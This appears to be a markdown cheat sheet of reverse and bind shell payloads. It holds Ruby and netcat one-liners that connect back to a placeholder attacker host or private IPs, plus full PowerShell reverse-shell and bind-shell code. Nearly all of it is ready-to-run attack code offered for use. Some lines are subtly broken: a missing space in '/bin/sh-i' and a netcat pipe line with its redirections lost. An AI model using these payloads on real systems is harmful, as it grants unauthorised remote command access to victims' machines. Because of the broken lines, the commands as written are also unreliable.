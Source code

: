 ## **Spawn Ruby Shell**
 
```sql
exec "/bin/sh"
```

```sql
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh-i<&%d >&%d 2>&%d",f,f,f)'
```


## **Netcat**
### Linux
```sql
nc -e /bin/sh ATTACKING-IP 80
```

```sql
/bin/sh | nc ATTACKING-IP 80
```

```sql
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
### Windows
```sql
nc.exe -e cmd.exe 10.10.14.4 444
```

## **PowerShell**
### Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();

```
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
 ```
 ### Bind Shell
 ```powershell
 powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
 ```